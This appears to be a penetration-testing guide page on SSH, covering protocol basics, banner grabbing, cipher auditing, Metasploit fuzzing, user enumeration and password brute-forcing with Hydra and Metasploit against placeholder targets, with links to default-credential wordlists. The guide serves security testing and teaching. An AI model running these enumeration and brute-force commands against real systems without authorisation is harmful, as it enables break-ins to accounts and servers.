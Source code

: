 # 🛠️ SSH

## Theory

The SSH protocol (Secure Shell) is used to login from one machine to another securely. It offers several options for strong authentication, as it protects the connections and communications security and integrity with strong encryption. This connection can be used for terminal access, file transfers, and for tunneling other applications.

## Enumeration

### Authentication type

It is possible to enumerate the allowed authentication types with the following command:

```bash
ssh -v <IP>
OpenSSH_8.1p1, OpenSSL 1.1.1d  10 Sep 2019
...
debug1: Authentications that can continue: publickey,password,keyboard-interactive
```

### Banner Grabbing

Useful to get basic information about the SSH server such as its type and version.

```bash
nc -vn <IP> 22
...
SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u7
```

### Server's public SSH key

```bash
ssh-keyscan -t rsa <IP> -p <PORT>
```

### Weak Cipher Algorithms

Some auditing tools can help to quikly find the target version and which algorithms are available on the server in order to give recommendations to the customer.

{% tabs %}
{% tab title="sslscan" %}
```bash
sslscan <IP>:22
```
{% endtab %}

{% tab title="nmap" %}
```bash
nmap -p22 -n -sV --script ssh2-enum-algos <IP>
```
{% endtab %}

{% tab title="ssh-audit" %}
```bash
ssh-audit -p 22 -4 <IP>
```
{% endtab %}
{% endtabs %}

### SSH fuzzing

Fuzzing the SSH service could help to find vulnerabilities. The automated fuzzing is simple but not very targeted so it usually takes a lot of time and could miss some results.\
The custom and the manual approach is more effective but it takes time to familiarize yourself with the target. Here is an example of a custom fuzzing : [Fuzzing the OpenSSH daemon using AFL](https://github.com/ShutdownRepo/Penetration-Testing-Guides/tree/5140c07692d27c9b3162088ed3aeff1bbbf23d23/servers/abusing-services/www.vegardno.net/2017/03/fuzzing-openssh-daemon-using-afl.html).

{% tabs %}
{% tab title="Automated fuzzing" %}
```bash
msfconsole
use auxiliary/fuzzers/ssh/ssh_version_2
set RHOSTS <IP>
run
```
{% endtab %}
{% endtabs %}

## Attacks

### Weak cryptographic keys

### Authentication bruteforcing

#### User enumeration

```bash
msfconsole
use scanner/ssh/ssh_enumusers
set RHOSTS <IP>
set USER_FILE <user_file_path>
```

#### Password Bruteforcing

{% tabs %}
{% tab title="Hydra" %}
```bash
hydra -l <user> -s 22 -P <path_pass_list> <IP> -t 4 ssh
```
{% endtab %}

{% tab title="Metasploit" %}
```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set PASS_FILE /usr/share/wordlists/password/rockyou.txt
set RHOSTS <IP>
set STOP_ON_SUCCESS true
set username <USER>
run
```
{% endtab %}
{% endtabs %}

Some common ssh credentials [here ](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt)and [here](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt).

#### Private key Bruteforcing

## Resources

{% embed url="https://book.hacktricks.xyz/pentesting/pentesting-ssh" %}

{% embed url="https://community.turgensec.com/ssh-hacking-guide/" %}
